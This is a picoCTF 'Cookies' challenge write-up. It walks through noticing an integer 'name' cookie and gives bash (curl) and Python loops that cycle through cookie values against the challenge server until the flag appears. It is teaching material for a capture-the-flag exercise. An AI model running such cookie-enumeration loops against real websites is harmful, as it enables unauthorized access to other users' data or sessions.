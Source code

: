 ```yaml
---
tags:
  - web-exploitation
points: 40 points
---
```


[<-- Web Exploitation Write-ups](../writeup-list.md)

# Cookies

## Write-up
##### Concept Coverage :
This challenge is an introduction to the concepts of [web HTTP cookies](https://www.cloudflare.com/learning/privacy/what-are-cookies/) . 

##### Following are the steps for the challenge: 
1. We are given the link to URL hosted website which takes type of cookie as an input and responds with a text.
    
    ![cookie-website](./assets/cookie-website.png)
    
2. Since the name of the challenge is `Cookies` lets take a look at the website's cookie. We notice that there is only one cookies
    
    ![cookie-list](./assets/cookie-list.png)
    
3. Lets input the sample text `snickerdoodle` . As soon as we click on `Search` button we see that the cookie value gets updated. Upon searching for other types of cookies I selected the following to try `Chocolate Chip`, `Butter` and `Gingerbread` . I noticed we get different value in the `name` Web cookie for each of them
    
    ![chocolate-chip](./assets/chocolate-chip.png)
    
    ![butter](./assets/butter.png)
    
    ![gingerbread](./assets/gingerbread.png)
    
4. From the above observation we can assume that each integer value in `name` web cookie is tied to a different output. It is possible we have our flag as one of the value.
   
5. So I wrote a bash script to iterate through the different value for `name` web cookie and see if I can find anything with `picoCTF{` or `cookies!` pattern since thats the line that gives the output. At the time of solving I ran it from `0` to `100` but since I have solved it I have restricted it to the sample space of `10` to `30` (This was at the time of writing but this might change and you might have to use a different range).
    
    ![flag](./assets/flag.png)
    
    Here is the `find-flag.sh` used in above screenshot :
   
    ```bash
    #! /bin/bash
    for var in {10..30}
    do
    echo "Trying name=$var"
    curl -s "http://mercury.picoctf.net:21485/check" --cookie "name=$var" | grep -E "cookies!|picoCTF{" 
    done
    ```

6. You can leverage any program to cycle through the value or even you can do it manually through browser by updating value and refreshing the page. I have attached the python code as well.
   
    ```python 
    import requests
    for i in range(25):
        cookie = 'name={}'.format(i)
        headers = {'Cookie':cookie}
        r = requests.get('http://mercury.picoctf.net:21485/check', headers=headers)
        if ('picoCTF' in r.text):
            print(r.text)
            print("Flag found in web cookie name={}".format(i))
            break

    ```
